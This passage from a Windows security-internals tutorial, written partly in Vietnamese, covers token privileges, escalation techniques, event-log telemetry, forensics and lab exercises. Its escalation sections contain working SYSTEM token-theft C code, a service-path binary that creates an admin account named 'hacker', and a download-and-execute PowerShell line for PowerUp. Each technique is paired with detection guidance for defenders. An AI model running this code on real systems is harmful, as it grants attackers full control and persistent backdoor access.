1. Tạo named pipe: \\.\pipe\MyPipe\pipe\spoolss
2. Dùng SpoolSS API (AddMonitor/AddPrinter) trick Print Spooler service
   kết nối vào pipe (Spooler chạy dưới SYSTEM)
3. ImpersonateNamedPipeClient → SYSTEM token
4. CreateProcessWithTokenW → SYSTEM cmd.exe

Yêu cầu: SeImpersonatePrivilege + Print Spooler service đang chạy
```

**Detection:**
- Named pipe creation với unusual name pattern từ non-system process
- Event 4624 Logon Type 3: new SYSTEM logon từ unexpected source
- ETW-TI: `OpenProcessToken` targeting SYSTEM process từ unusual caller
- Audit policy: `Privilege Use → Special Logon (4672)` — mọi SYSTEM logon

---

### 8.10 Token Duplication — Steal SYSTEM Token

**Concept:** Nếu có `SeDebugPrivilege` (available khi là admin), mở handle đến SYSTEM process, lấy token của nó, impersonate hoặc spawn child process với token đó.

```c
#include <windows.h>
#include <tlhelp32.h>
#include <stdio.h>

// Tìm PID của process chạy dưới SYSTEM (ví dụ: winlogon.exe)
DWORD FindSystemProcess(const wchar_t* procName) {
    HANDLE hSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32W pe = { sizeof(pe) };

    if (Process32FirstW(hSnap, &pe)) {
        do {
            if (_wcsicmp(pe.szExeFile, procName) == 0) {
                CloseHandle(hSnap);
                return pe.th32ProcessID;
            }
        } while (Process32NextW(hSnap, &pe));
    }
    CloseHandle(hSnap);
    return 0;
}

HANDLE StealSystemToken() {
    // Cần SeDebugPrivilege để open SYSTEM process
    // Enable SeDebugPrivilege trước:
    HANDLE hToken;
    OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &hToken);
    TOKEN_PRIVILEGES tp = { 1, { { {0}, SE_PRIVILEGE_ENABLED } } };
    LookupPrivilegeValueW(NULL, SE_DEBUG_NAME, &tp.Privileges[0].Luid);
    AdjustTokenPrivileges(hToken, FALSE, &tp, sizeof(tp), NULL, NULL);
    CloseHandle(hToken);

    // Tìm winlogon.exe (chạy dưới SYSTEM)
    DWORD pid = FindSystemProcess(L"winlogon.exe");
    if (!pid) { printf("[-] winlogon.exe not found\n"); return NULL; }
    printf("[*] winlogon.exe PID: %lu\n", pid);

    // Mở process handle
    HANDLE hProcess = OpenProcess(PROCESS_QUERY_INFORMATION, FALSE, pid);
    if (!hProcess) { printf("[-] OpenProcess failed: %lu\n", GetLastError()); return NULL; }

    // Lấy token của process
    HANDLE hProcToken;
    if (!OpenProcessToken(hProcess, TOKEN_DUPLICATE | TOKEN_QUERY, &hProcToken)) {
        printf("[-] OpenProcessToken failed: %lu\n", GetLastError());
        CloseHandle(hProcess);
        return NULL;
    }

    // Duplicate token — tạo primary token (để dùng với CreateProcessWithTokenW)
    HANDLE hDupToken;
    DuplicateTokenEx(hProcToken,
        TOKEN_ALL_ACCESS,
        NULL,
        SecurityImpersonation,
        TokenPrimary,     // Primary token để spawn process
        &hDupToken);

    CloseHandle(hProcToken);
    CloseHandle(hProcess);

    printf("[+] Duplicated SYSTEM token: 0x%p\n", hDupToken);
    return hDupToken;
}

// Spawn SYSTEM shell
void SpawnSystemShell() {
    HANDLE hSysToken = StealSystemToken();
    if (!hSysToken) return;

    STARTUPINFOW si = { sizeof(si) };
    PROCESS_INFORMATION pi;

    if (CreateProcessWithTokenW(hSysToken, 0, NULL,
        L"C:\\Windows\\System32\\cmd.exe",
        CREATE_NEW_CONSOLE, NULL, NULL, &si, &pi)) {
        printf("[+] SYSTEM shell spawned! PID: %lu\n", pi.dwProcessId);
    }
    CloseHandle(hSysToken);
}
```

**Cần gì để dùng kỹ thuật này:**
- Cần là local Administrator (để có `SeDebugPrivilege`)
- Không hoạt động nếu target process có PPL protection (lsass với RunAsPPL=1)
- Hoạt động với winlogon.exe, services.exe, svchost.exe (các SYSTEM process không có PPL)

**Detection:**
- Sysmon Event 10: `OpenProcess` targeting `winlogon.exe` với `PROCESS_QUERY_INFORMATION` từ unusual caller
- Event 4672: Special privileges (SeDebugPrivilege) được assign tại logon
- Event 4673: SeDebugPrivilege được sử dụng
- ETW-TI: token duplication operation

---

### 8.11 Unquoted Service Path — LPE via Path Parsing

**Concept:** Nếu service `ImagePath` chứa khoảng trắng và không có dấu ngoặc kép, Windows parse theo thứ tự, tạo ra điểm inject binary.

```powershell
# Tìm services có unquoted path với khoảng trắng
# Enumerate tất cả services
Get-WmiObject Win32_Service | Where-Object {
    $_.PathName -notmatch '"' -and $_.PathName -match ' '
} | Select-Object Name, PathName, StartMode, StartName

# Ví dụ vulnerable path:
# C:\Program Files\My Company\My Service\service.exe
#
# Windows sẽ thử theo thứ tự:
#   C:\Program.exe               ← nếu file này tồn tại và writable directory → exploit!
#   C:\Program Files\My.exe
#   C:\Program Files\My Company\My.exe
#   C:\Program Files\My Company\My Service\service.exe

# Kiểm tra nếu C:\Program Files\ có thể create file
# (thường không — nhưng C:\ProgramData\ hay các path tương tự thì có thể)
icacls "C:\Program Files\" | findstr /i "(W)\|(M)\|(F)"
```

```c
// Nếu có write permission vào một trong các intermediate directories:
// Đặt malicious binary tại: C:\Program.exe (hoặc path tương ứng)
// Restart service → Windows execute binary của attacker với service account privilege

// Tạo malicious binary đơn giản (C):
#include <windows.h>
int main() {
    // Thêm user hoặc spawn reverse shell
    system("net user hacker Password123! /add");
    system("net localgroup administrators hacker /add");
    return 0;
}
// Compile: cl /o C:\Program.exe exploit.c
// Restart service: sc stop "VulnerableService" && sc start "VulnerableService"
```

**Tìm bằng PowerUp (PowerShell):**
```powershell
# PowerUp.ps1 — enumerate nhiều Windows privilege escalation vectors
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1')
Invoke-AllChecks

# Hoặc chỉ kiểm tra unquoted paths:
Get-UnquotedService
```

**Detection:**
- `CmRegisterCallback` / Event 4657: Ghi `ImagePath` vào service registry key mới/thay đổi
- `PsSetLoadImageNotifyRoutine`: Binary từ unexpected path được load như service
- Event 7045: New service installed với unusual path
- Baseline service inventory thường xuyên → detect thêm service hoặc path change

---

## 9. Defender / EDR Telemetry


> Telemetry interpretation note:
> ETW/Event Log/WMI/EDR are provider-generated or sensor-generated views, not universal ground truth. Telemetry must be interpreted with source layer, configuration, provider state, collection policy, and retention. Absence of an event is not proof of absence. High-signal anomaly still requires context and correlation.

### 9.1 Token và privilege telemetry

| Event class | Examples | Source layer | Research notes | Limits |
|-------------|----------|-------------|----------------|--------|
| **Privilege use** | `SeDebugPrivilege` enabled/used | Event Log 4673 "Sensitive Privilege Use" | Requires audit policy: Privilege Use → Success | Only fires on specific sensitive privileges; not all privilege changes logged |
| **Special privileges at logon** | SYSTEM, admin logon privileges | Event 4672 "Special privileges assigned to new logon" | Lists sensitive privileges present in token at logon | Lists available, not used; firing condition is logon |
| **Token elevation** | UAC elevation, `CreateProcessWithTokenW` | Event 4703, 4648 | Token handle manipulation, explicit credential use | Not all elevation paths generate events |
| **Integrity level** | Process start with High IL | Process creation events if collected (Sysmon 1) | IL in token — not directly in standard events | Requires EDR or Sysmon to collect IL per process |
| **Logon session** | Interactive logon, service logon, network auth | Event 4624 with LogonType | Correlate with AuthenticationId LUID | Network type 3 doesn't cache creds |
| **Group membership** | Token groups at logon | Event 4624 includes caller info | Not full group dump — need token inspection | `whoami /groups` or Process Explorer for live |
| **Impersonation context** | Thread impersonating named pipe client | ETW-TI or kernel callback | Not in standard Event Log | Requires kernel-level sensor |
| **Privilege adjust** | `AdjustTokenPrivileges` enabling SeDebug | ETW (untrusted path) or user-mode hook | Standard Event Log doesn't capture this directly | EDR user-mode hook or ETW needed |

### 9.2 Object access telemetry

| Event class | Source | Key fields | Notes |
|-------------|--------|-----------|-------|
| **File read/write/delete** | Security Event 4663 (if SACL + audit policy) | Process, file path, access mask, result | Requires both SACL on object AND audit policy enabled |
| **Registry key access** | Security Event 4663 (same conditions) | Key path, access mask | Noisy — filter to sensitive keys |
| **Process handle open** | Sysmon Event 10 | SourceProcess, TargetProcess, AccessMask, GrantedAccess | Excellent signal — particularly for LSASS, sensitive processes |
| **Thread handle open** | Sysmon Event 10 (thread target) | Same as process | Less common — used for thread injection |
| **Service control access** | Event 7040, 7045 | Service name, type, change | System Event Log |
| **Device open** | Minifilter events (Chapter 6) | Device path, process | Chapter 6 coverage |
| **Named pipe access** | Sysmon Event 17/18 | Pipe name, process | Pipe create and connect |
| **Token handle duplication** | ETW-TI or ObRegisterCallbacks | Source, target, access mask | Requires kernel sensor |
| **Object access (generic)** | Security Event 4656/4663 | Object type, name, access | Only with SACL + policy |

### 9.3 Logon / session telemetry

| Event ID | Name | Key fields | Logon types | Notes |
|----------|------|-----------|-------------|-------|
| **4624** | Account logon success | SubjectUserName, LogonType, WorkstationName, IpAddress, LogonGuid | All | Critical baseline event |
| **4625** | Account logon failure | Same + FailureReason | All | Brute force, cred stuffing detection |
| **4634** | Account logoff | SubjectLogonId | All | Logon session end |
| **4647** | User-initiated logoff | SubjectLogonId | Interactive | |
| **4648** | Logon using explicit credentials | TargetUserName, TargetDomainName, SubjectLogonId | — | RunAs, psexec-style lateral movement |
| **4672** | Special privileges assigned | SubjectUserName, SubjectLogonId, PrivilegeList | Logon | All privileged logons |
| **4768** | Kerberos TGT request | AccountName, ServiceName, IpAddress | Kerberos | Domain auth events |
| **4769** | Kerberos service ticket request | ServiceName, AccountName | Kerberos | Lateral movement TGS requests |
| **4776** | NTLM auth | AccountName, Workstation, Status | NTLM | NTLM-specific auth |
| **4778** | Session reconnect | SessionName, IpAddress | Remote | RDP reconnect |
| **4779** | Session disconnect | SessionName | Remote | RDP disconnect |

### 9.4 Service / security-sensitive telemetry

| Event | Source | Key data | Investigation signal |
|-------|--------|---------|---------------------|
| **7045** | System log — SCM | ServiceName, ImagePath, ServiceType, StartType, AccountName | New service = driver/malware persistence candidate |
| **4697** | Security log | Same as 7045 | Requires audit policy; more detailed than 7045 |
| **7040** | System log — SCM | Service name, start type change | Service modification |
| **7034/7035/7036** | System log — SCM | Service crash, start, stop | Service lifecycle |
| **4673** | Security log | PrivilegeName, ProcessName | Sensitive privilege used — SeLoadDriver, SeDebug, etc. |
| **1102** | Security log | SubjectUserName | Security log cleared — immediate alert |
| **4719** | Security log | AuditPolicyChanges | Audit policy changed — potential coverage reduction |
| **4720/4722/4724/4728/4732** | Security log | AccountName, GroupName | User/group changes |
| **4663** | Security log | ObjectName, AccessMask, ProcessName | Object access — requires SACL + policy |
| **Sysmon 10** | Sysmon | SourceImage, TargetImage, GrantedAccess | Process handle access — LSASS access pattern |

### 9.5 ETW / Event Log / Sysmon-style telemetry

| Source | Coverage | Configuration needed |
|--------|----------|---------------------|
| **Security Event Log** | Logon, privilege, policy, account changes, object access (partial) | Audit policy: `auditpol /set /category:...` |
| **System Event Log** | Service install/change, driver load, SCM events | Default — no configuration |
| **Sysmon (if deployed)** | Process create (with token IL if configured), process access, file create, pipe events, DNS, network | Sysmon config XML |
| **ETW Microsoft-Windows-Security-Auditing** | Core security events (backing for Security Event Log) | Audit policy |
| **ETW Microsoft-Windows-Threat-Intelligence** | Deep: VM alloc/protect, IOCTL, handle access (PPL level consumer) | PPL consumer required |
| **Microsoft-Windows-Kernel-Process** | Process/thread creation, image load | ETW session |
| **Windows Defender / AMSI** | Malicious script detection, suspicious API patterns | Built-in; AMSI requires app integration |
| **WMI Activity Log** | WMI queries and subscriptions | Default logging |
| **Task Scheduler Log** | Scheduled task create, modify, run | Default logging |
| **PowerShell** | Script block logging, module logging | `HKLM\...\PowerShell\...\ScriptBlock\EnableScriptBlockLogging` |

### 9.6 Telemetry limits

```mermaid
flowchart TD
    ACTION["Action: Process opens LSASS\nAdjusts token privilege\nModifies service config"]

    subgraph CHECKS["Security checks"]
        TOK_CHK["Token evaluation\n(SRM)"]
        ACL_CHK["DACL check\n(object)"]
        IL_CHK2["IL check\n(MIC)"]
        PPL_CHK["PPL check\n(if target protected)"]
    end

    subgraph AUDIT_LAYER["Audit layer"]
        SACL_CHK["SACL / audit policy\nconfigured?"]
        EVTLOG["Security Event Log\n(if policy + SACL)"]
    end

    subgraph EDR_LAYER["EDR sensor layer"]
        KRNL_CB["Kernel callbacks\nObRegisterCallbacks\nETW-TI"]
        UM_HOOK["User-mode hooks\n(ntdll shim)"]
        EDR_STORE["EDR event store\n(independent of Event Log)"]
    end

    subgraph FORENSIC_LAYER["Forensics"]
        MEM_DUMP["Memory dump\nToken state, handles\nlogon sessions"]
        REGIST["Registry artifacts\nService config\nAudit policy history"]
    end

    ACTION --> CHECKS
    CHECKS --> SACL_CHK
    SACL_CHK -->|"policy + SACL set"| EVTLOG
    SACL_CHK -->|"policy missing or no SACL"| |"no event"| FORENSIC_LAYER
    CHECKS --> KRNL_CB --> EDR_STORE
    CHECKS --> UM_HOOK --> EDR_STORE
    CHECKS --> MEM_DUMP
    CHECKS --> REGIST
```

**Key gaps:**

1. **Security Event Log is opt-in.** Audit policy must be enabled per category. Default Windows audit policy is minimal on server, slightly better on domain-joined machines with GPO.

2. **Object access auditing requires two things:** audit policy (`auditpol /set /subcategory:"Object Access"`) AND SACL on specific objects. Neither alone is sufficient.

3. **Thread impersonation is invisible in standard logs.** Process creation captures primary token, not thread-level impersonation. Requires kernel sensor or ETW-TI.

4. **Token state is point-in-time.** Event 4672 captures privileges at logon. `AdjustTokenPrivileges` calls afterwards may not be logged unless Privilege Use audit enabled.

5. **PPL blocks access but access attempt is still telemetry.** `STATUS_ACCESS_DENIED` on LSASS open = investigate. Don't discard denied-access events.

6. **Memory forensics reveals state not in logs.** Token contents, open handles, impersonation tokens, logon session list in LSASS memory — all visible in live kernel or dump. None in Event Log.

7. **EDR and Event Log are independent sources.** Compromise of one doesn't compromise both. SIEM should aggregate both channels.

---

## 10. Forensic Artifacts

### 10.1 Event Logs

**Security Event Log** (`C:\Windows\System32\winevt\Logs\Security.evtx`):

| Category | Key Event IDs | What it records |
|----------|--------------|-----------------|
| Logon/Logoff | 4624, 4625, 4634, 4647, 4648 | Every logon attempt, type, source IP, LUID |
| Special privileges | 4672, 4673 | Admin/sensitive logons; privilege use |
| Policy changes | 4719, 4739, 4902 | Audit policy change; account policy change |
| Account changes | 4720, 4722, 4724, 4726, 4728, 4732, 4756 | User/group create, modify, delete |
| Object access | 4656, 4663 | File/registry access (requires SACL + policy) |
| Log cleared | 1102 | Security log cleared — anti-forensics signal |
| Service | 4697 | Service installed (requires audit: Security-Audit) |

**System Event Log** (`System.evtx`):

| Event ID | Source | Meaning |
|----------|--------|---------|
| 7045 | Service Control Manager | New service installed |
| 7040 | SCM | Service start type changed |
| 7034/7035/7036 | SCM | Service crashed / started / stopped |
| 6 | Microsoft-Windows-CodeIntegrity | Driver blocked by CI policy |
| 19/20/41/42 | Kernel-Power | System resume/sleep (power state) |

**PowerShell logs** (`Microsoft-Windows-PowerShell%4Operational.evtx`):

- Event 4103: Module logging — cmdlet invocations with parameters
- Event 4104: Script Block logging — deobfuscated script content
- Event 4105/4106: Start/stop transcript

Requires policy enablement: `HKLM\SOFTWARE\Policies\Microsoft\Windows\PowerShell`.

**Task Scheduler logs** (`Microsoft-Windows-TaskScheduler%4Operational.evtx`):

- Event 106: Task registered
- Event 141: Task deleted
- Event 200/201: Task action started/completed

**RDP/Session logs** (`Microsoft-Windows-TerminalServices-LocalSessionManager%4Operational.evtx`):

- Event 21/23/24: RDP session connect/disconnect/reconnect
- Event 25: Remote reconnect to existing session

### 10.2 Registry / security policy artifacts

**Service configuration persistence:**

```
HKLM\SYSTEM\CurrentControlSet\Services\<ServiceName>
  ImagePath     → binary path (verify hash + signer)
  Type          → 1=Kernel, 16=Win32 Own, 32=Win32 Share
  Start         → 0=Boot, 1=System, 2=Auto, 3=Manual
  ObjectName    → LocalSystem / NT AUTHORITY\... / account name
  Description   → Human-readable (can be spoofed)
```

**Audit policy in registry:**

Audit policy is stored (partially) at:
```
HKLM\SECURITY\Policy\PolAdtEv   (security hive — requires SYSTEM)
```

Human-readable view: `auditpol /get /category:*`

**UAC policy:**

```
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System
  EnableLUA = 0|1          (0 = UAC disabled)
  ConsentPromptBehaviorAdmin = 0..5
  ConsentPromptBehaviorUser  = 0..3
```

**Local accounts (SAM hive):**

```
HKLM\SAM\SAM\Domains\Account\Users\
  (requires SYSTEM access to read)
  Contains: user RID, account flags, last logon, password info
```

SAM hive is protected — normal user cannot read. `reg save HKLM\SAM sam.hive` requires SYSTEM.

**AppCompat / AmCache — execution evidence:**

`C:\Windows\appcompat\Programs\Amcache.hve` — records program execution with file hashes. Useful for: proving binary ran even if deleted, correlating execution timestamp, identifying signer.

### 10.3 Token / session artifacts in memory

**Memory artifacts visible in live kernel or dump:**

| Artifact | Location | Access method |
|----------|---------|---------------|
| Process primary token | `EPROCESS.Token` (pointer or EX_FAST_REF) | WinDbg `!process`, `!token` |
| Thread impersonation token | `ETHREAD.ImpersonationInfo` | WinDbg `!thread`, `!token` |
| Token user SID | `_TOKEN.UserAndGroups[0]` | WinDbg `!token <addr> 0x1f` |
| Token privileges | `_TOKEN.Privileges[]` | WinDbg `!token <addr>` |
| Token integrity level | `_TOKEN.IntegrityLevelIndex` | WinDbg `!token`, Process Explorer |
| Token logon session | `_TOKEN.AuthenticationId` (LUID) | Cross-reference with Event 4624 |
| Token elevation type | `_TOKEN.ElevationType` | `GetTokenInformation(TokenElevationType)` |
| Process protection level | `EPROCESS.Protection` | WinDbg `!process <addr> 1` |
| Handle table | `EPROCESS.ObjectTable` | WinDbg `!handle` |
| Logon session list in LSASS | `lsasrv.dll` in LSASS memory | Memory forensics — Volatility `windows.lsadump` conceptually |

**Volatility plugins (memory forensics):**

```
volatility3 windows.privileges  → token privileges per process
volatility3 windows.getsids     → SIDs per process
volatility3 windows.handles     → open handles per process
volatility3 windows.sessions    → logon sessions
```

### 10.4 ACL artifacts

**File system ACLs** — persisted in NTFS security attribute:

```cmd
:: Read file ACL
icacls C:\path\to\file

:: Save and restore
icacls C:\path /save acls.txt /T /C
icacls C:\path /restore acls.txt
```

**Registry ACLs:**

```powershell
# Read registry key ACL
Get-Acl "HKLM:\SYSTEM\CurrentControlSet\Services\SomeService" | Format-List

# Raw reg ACL via command line
reg query HKLM\SYSTEM\CurrentControlSet\Services\SomeService /s
# (AccessChk more useful for permissions analysis)
```

**Service ACLs** (SDDL string):

```cmd
sc sdshow <service_name>
# Returns SDDL string, e.g.:
# D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)
# Decode with ConvertFrom-SddlString in PowerShell
```

**Named object ACLs** — visible in WinObj Properties → Security.

**Device object ACLs** — WinObj → `\Device\<name>` → Properties → Security. Also via `!sd` in WinDbg.

### 10.5 EDR / SIEM artifacts

**Process tree with token context (if EDR collects):**

- Process create event with IL, user, elevation type, parent process
- Token snapshot at creation (EDR may not re-snapshot after AdjustTokenPrivileges)
- Command line, image hash, signer

**Handle access events:**

- Sysmon Event 10: SourceImage, TargetImage, GrantedAccess
- Filtering: access mask `0x1FFFFF` = PROCESS_ALL_ACCESS = high signal
- Baseline: normal processes that legitimately open sensitive handles

**Privilege use tracking:**

- Event 4673 (if policy enabled) + EDR observation of `NtAdjustPrivilegesInToken` calls
- Correlate: process + privilege enabled + operation following

**LSASS telemetry (curated):**

- Sysmon 10 → TargetImage contains lsass.exe
- GrantedAccess masks: `0x1fffff`, `0x1010`, `0x410` — suspicious combinations
- Caller process: baseline vs non-baseline callers
- Timing: during incident vs quiet period

**Session / logon enrichment:**

SIEM correlation: Event 4624 LUID → processes spawned in that logon session → all activity attributed to that logon. Pivot point for incident investigation.

---

## 11. Debugging and Reversing Notes

### whoami

Built-in Windows tool — essential starting point for token inspection.

```cmd
:: Show current user + SID
whoami /user

:: Show all groups (includes integrity level)
whoami /groups

:: Show all privileges (enabled/disabled state)
whoami /priv

:: Show everything: user, groups, privileges, logon ID, attributes
whoami /all
```

**Comparing normal vs elevated:**

```
Normal admin cmd:                    Elevated admin cmd:
--------------------------          --------------------------
Integrity Level: Medium             Integrity Level: High
Administrators: Deny only           Administrators: Enabled
SeDebugPrivilege: Disabled          SeDebugPrivilege: Enabled
SeLoadDriverPrivilege: Not present  SeLoadDriverPrivilege: Enabled
...                                 ...
```

Running `whoami /all` in both contexts side-by-side is the fastest way to understand the practical difference between filtered and elevated token.

### Process Explorer (Sysinternals)

**Security tab per process** — double-click process → Security tab:

```
User:       DOMAIN\username
Domain:     DOMAIN
Groups:
  BUILTIN\Administrators    → Enabled (if elevated) or Deny-only (if not)
  Everyone                  → Enabled
  NT AUTHORITY\...          → Enabled
  Mandatory Label\High...   → Integrity level SID
Privileges:
  SeDebugPrivilege          → Disabled / Enabled
  SeChangeNotifyPrivilege   → Enabled (default)
  ...
```

**Integrity level column:** Right-click column headers → select "Integrity Level" (or filter "Protection"). Shows IL for all processes.

**Verification column:** Shows signer of process binary — important for separating trusted from untrusted processes in token analysis.

**Comparing tokens:** Open two process Property windows side-by-side (elevated cmd vs normal cmd) to visually compare.

**Handle view (lower pane):** Shows all open handles with object types. Find token handles, process handles, key handles — access mask visible.

### AccessChk (Sysinternals)

Enumerate effective permissions on objects:

```cmd
:: Effective access: what can 'Users' group do to this directory?
accesschk -d "Users" C:\Windows\Temp

:: Find all directories writable by Users in system paths
accesschk -w -s -d "Users" C:\Program Files

:: Check service permissions
accesschk -c -l MyService

:: Find services that 'Authenticated Users' can modify
accesschk -c * -l | findstr /i "Authenticated Users"

:: Registry key permissions
accesschk -k "HKLM\System\CurrentControlSet\Services" -s

:: Check process handle access
accesschk -p notepad.exe

:: Show all processes a user can open
accesschk -p * | findstr /i "DOMAIN\user"
```

**Useful for:** Weak ACL hunting, service permission review, path-based privilege escalation analysis, registry key permission survey.

### icacls

Built-in tool for file/directory ACL inspection and modification:

```cmd
:: Show ACL for file/directory
icacls C:\path\to\target

:: Show with inheritance info
icacls C:\path\to\target /T

:: Sample output interpretation:
:: C:\Temp NT AUTHORITY\SYSTEM:(I)(F)
::         BUILTIN\Administrators:(I)(F)
::         BUILTIN\Users:(I)(RX)
::
:: (I) = Inherited
:: (F) = Full Control
:: (RX) = Read + Execute
:: (M) = Modify
:: (OI) = Object Inherit
:: (CI) = Container Inherit

:: Save ACL backup
icacls C:\path /save backup.acl /T /C

:: Set integrity label on file
icacls file.txt /setintegritylevel Low
```

**Deny ACE indicator:** `(N)` or DENY in output. Deny ACEs processed before Allow.

### PowerShell

```powershell
# Get-Acl for files
Get-Acl "C:\path\to\file" | Format-List
(Get-Acl "C:\path").Access | Select IdentityReference, FileSystemRights, AccessControlType

# Get-Acl for registry
Get-Acl "HKLM:\SYSTEM\CurrentControlSet\Services\SomeService" | Format-List

# Find writable paths in PATH
foreach ($p in $env:PATH.Split(";")) {
    try { $acl = Get-Acl $p -EA Stop
          $acl.Access | Where-Object {$_.IdentityReference -match "Users|Everyone" -and $_.FileSystemRights -match "Write|FullControl"}
    } catch {}
}

# Decode SDDL from service
$sddl = (sc.exe sdshow ServiceName)
ConvertFrom-SddlString $sddl

# Query Security Event Log
Get-WinEvent -LogName Security -FilterXPath "*[System[EventID=4624]]" |
    Select-Object -First 10 | Format-List

# Check audit policy
auditpol /get /category:* | Select-String "Success|Failure"
```

**Limitations:** PowerShell `Get-Process` does not show token details — need `Get-Process | Select Name, Id` then use Process Explorer or `OpenProcessToken` API for details.

### WinDbg — security objects

```windbg
; Get EPROCESS of process by PID (lm, !process 0 0)
!process 0 0
!process <pid>

; Get token address from EPROCESS
dt nt!_EPROCESS <eprocess_addr> Token
; Token is EX_FAST_REF — lower 4 bits = ref count, clear them:
; TokenAddr = (TokenFastRef & ~0xF)

; Dump token
!token <token_addr>
; Shows: User SID, Group SIDs, Privileges (with enabled state),
;        IntegrityLevelIndex, AuthenticationId (LUID),
;        ElevationType, ImpersonationLevel

; Full token dump
!token <addr> 0x1f

; Thread impersonation token (if set)
!thread <ethread_addr>
; Look for ImpersonationInfo field

; Process protection level
dt nt!_EPROCESS <addr> Protection
; _PS_PROTECTION: Type, Audit, Signer

; Security descriptor of an object
!object <addr>
; Find security field in object header
dt nt!_OBJECT_HEADER <header_addr> SecurityDescriptor

; Decode security descriptor
!sd <sd_addr>
; Shows: Owner, Group, DACL, SACL

; Decode ACL
!acl <acl_addr> 1   ; 1 = verbose

; Handle inspection
!handle 0 0f        ; all handles in current process
!handle 0 0f <eprocess_addr>   ; all handles in specific process

; Search for token objects (if pool scan viable)
!poolfind Toke 0
```

### x64dbg / user-mode reversing

When reverse engineering a binary that performs access checks or token manipulation:

```
Key APIs to identify in imports:
  advapi32.dll:
    OpenProcessToken, GetTokenInformation, SetTokenInformation
    AdjustTokenPrivileges, CreateRestrictedToken
    OpenObjectAuditAlarm, AccessCheck
    LookupPrivilegeValue, LookupPrivilegeName
    OpenSCManager, QueryServiceConfig, ChangeServiceConfig
    RegOpenKeyEx, RegQueryValueEx

  secur32.dll:
    ImpersonateSecurityContext, RevertSecurityContext
    QuerySecurityContextToken

  ntdll.dll:
    NtOpenProcessToken, NtAdjustPrivilegesInToken
    NtQueryInformationToken
    NtImpersonateThread, NtSetInformationThread (ImpersonateToken class)

Analysis approach:
  1. Find OpenProcessToken / NtOpenProcessToken calls
     → What process is being opened? What access mask?
  2. Find AdjustTokenPrivileges calls
     → What privilege being enabled? When in code flow?
  3. Find AccessCheck calls
     → What SD is being tested? What access mask?
  4. Map API sequence to security model understanding
     → Don't just note "OpenProcessToken called" — understand WHY
```

---

## 12. Safe Local Labs

### Lab 7.1 — Compare normal admin shell và elevated admin shell

**Goal:** Thấy rõ sự khác biệt giữa filtered token (medium IL) và full elevated token (high IL).

**Requirements:** Windows VM, local admin account, Command Prompt.

**Steps:**

1. Mở Command Prompt thông thường (không right-click "Run as administrator").
2. Run:
   ```cmd
   whoami /all
   ```
3. Save output hoặc screenshot.
4. Mở một Command Prompt mới: right-click → "Run as administrator" → confirm UAC.
5. Run:
   ```cmd
   whoami /all
   ```
6. So sánh hai outputs:
   - **Integrity Level** (tìm trong Groups section — "Mandatory Label\...")
   - **Administrators group**: Denied (filtered) vs Enabled (elevated)
   - **Privileges**: số lượng và enabled/disabled state

**Expected observations:**

- Normal admin: Integrity Level = Medium; Administrators = DENY_ONLY; SeDebugPrivilege = Disabled
- Elevated admin: Integrity Level = High; Administrators = Enabled; SeDebugPrivilege = Enabled

**Research notes:**

- `DENY_ONLY` trên Administrators group = group chỉ match Deny ACEs, không match Allow ACEs
- Privilege `Disabled` = present in token nhưng chưa active
- Run `AdjustTokenPrivileges` để enable disabled privilege — không cần escalation

---

### Lab 7.2 — Inspect process token với Process Explorer

**Goal:** Connect process với token details và compare services vs user processes.

**Requirements:** Process Explorer (Sysinternals), run as Administrator.

**Steps:**

1. Chạy Process Explorer as Administrator.
2. Thêm column "Integrity Level": View → Select Columns → Process Image → Integrity Level.
3. Quan sát IL của:
   - `explorer.exe` → Medium (user desktop)
   - `cmd.exe` (normal) → Medium
   - `cmd.exe` (elevated) → High
   - `lsass.exe` → System
   - `svchost.exe` (system service) → System
4. Double-click `explorer.exe` → Security tab.
5. Record:
   - User SID
   - Groups (note attributes)
   - Privileges (note which are enabled)
6. Double-click `lsass.exe` → Security tab (nếu accessible).
7. Check "Protection" column nếu có (PPL indicator).

**Expected observations:**

- Different processes have very different security contexts even on same machine
- Service processes at System IL with no dangerous privileges enabled by default = defense-in-depth
- Integrity level visible immediately in column — no need for API calls

---

### Lab 7.3 — Inspect file ACL với icacls

**Goal:** Hiểu DACL structure, inheritance, và implicit deny.

**Steps:**

1. Tạo lab directory:
   ```cmd
   mkdir C:\Temp\SecurityLab
   echo test > C:\Temp\SecurityLab\test.txt
   ```
2. Inspect directory ACL:
   ```cmd
   icacls C:\Temp\SecurityLab
   ```
3. Inspect file ACL:
   ```cmd
   icacls C:\Temp\SecurityLab\test.txt
   ```
4. Tạo subdirectory:
   ```cmd
   mkdir C:\Temp\SecurityLab\SubDir
   icacls C:\Temp\SecurityLab\SubDir
   ```
5. Note inherited ACEs (marked `(I)`).
6. So sánh với system path:
   ```cmd
   icacls C:\Windows\System32\ntoskrnl.exe
   ```

**Expected observations:**

- Most user-created files inherit parent directory ACEs
- System files have explicit ACEs; TrustedInstaller is owner
- Inheritance markers `(CI)` and `(OI)` explain propagation direction
- Knowing who "owns" a file is separate from who has permissions

**Cleanup:** `rmdir /s /q C:\Temp\SecurityLab`

---

### Lab 7.4 — AccessChk permission review

**Goal:** Survey weak permissions với Sysinternals AccessChk.

**Requirements:** AccessChk from Sysinternals, elevated prompt.

**Steps:**

1. Check what current user can do to a specific directory:
   ```cmd
   accesschk %USERNAME% C:\Windows\Temp
   ```
2. Find writable system directories (run elevated — safer results):
   ```cmd
   accesschk -w -d "Authenticated Users" C:\Windows
   ```
3. List service permissions current user can see:
   ```cmd
   accesschk -c * | more
   ```
4. Check permissions for a specific service:
   ```cmd
   accesschk -c WinDefend -l
   ```
5. Registry permission check:
   ```cmd
   accesschk -k "HKLM\System\CurrentControlSet\Services" -s -w
   ```

**Expected observations:**

- `C:\Windows\Temp` is typically writable by authenticated users — intentional
- Critical system binaries (`ntoskrnl.exe`, `lsass.exe`) are not writable by normal users
- Service permissions are strictly controlled on well-configured systems
- AccessChk output format: `RW` = read+write, `W` = write only, `R` = read only

---

### Lab 7.5 — Service account và service permissions observation

**Goal:** Understand service identity và configuration artifacts.

**Steps:**

1. Query all running services:
   ```cmd
   sc query state= all | more
   ```
2. Pick two harmless Microsoft services (e.g., `Winmgmt` and `EventLog`).
3. For each, run:
   ```cmd
   sc qc Winmgmt
   sc qc EventLog
   ```
